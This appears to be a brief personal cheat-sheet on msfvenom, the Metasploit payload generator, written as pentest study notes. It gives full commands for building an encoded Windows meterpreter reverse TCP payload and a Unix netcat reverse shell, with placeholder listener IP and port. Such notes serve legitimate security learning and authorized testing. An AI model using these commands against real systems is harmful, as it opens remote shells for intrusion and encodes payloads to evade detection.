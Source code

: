 # Msfvenom
Tool combining ```msfpayload``` and ```msfencode``` <br/>
*As far as i know it's uses mainly to generate various reverse shell*<br/>
Here are the one i used:<br/>
* ```msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<listening_local_IP> LPORT=<listening_local_port> -f <format> -o <output_file.format>```<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;```-a <arch>``` to specify the architecture to use for ```-p / --payload``` & ```-e / --encoder```<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;```-l <value>``` to list supported payloads (```--list-options``` for arguments), formats, encoder and architectures 
* ```msfvenom -p cmd/unix/reverse_netcat LHOST=<listening_local_IP> LPORT=<listening_local_port> R```<br/>
```R``` export the payload in raw format
